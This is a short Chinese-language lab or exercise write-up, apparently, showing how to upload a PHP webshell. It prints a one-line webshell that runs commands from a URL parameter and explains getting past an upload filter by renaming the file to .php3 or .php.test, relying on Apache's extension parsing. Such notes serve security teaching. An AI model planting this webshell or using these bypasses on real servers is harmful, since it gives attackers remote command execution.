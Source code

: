 

### webshell

- 先构造webshell文件pic.php,代码如下
    ```php
    <?php
    system($_GET['cmd']);
    ?>  
    ```
- 结果如下,猜测是进行了文件后缀名过滤<br>![](ws1.png)

- 尝试更改文件名为**pic.php3**或者**pic.php.test**,可以上传



- `.php3`饶过简单的文件类型检测，并执行代码，在`php5.conf`的服务配置中,允许了将ph(p3?|tml)类型的文件当成php代码进行解释执行<br>![](ws2.png)

- `.php.test`饶过文件类型的过滤.
>Apache 对文件解析是从右到左开始判断解析。如果文件的扩展名没有配置默认的处理程序，就再往左判断解析。 如 vul.php.owf.rar，由于Apache无法解析 rar 和 owf 扩展名，但能够解析 php 扩展名，因此 Apache 会将 vul.php.owf.rar 当做 PHP 代码进行解析并执行。
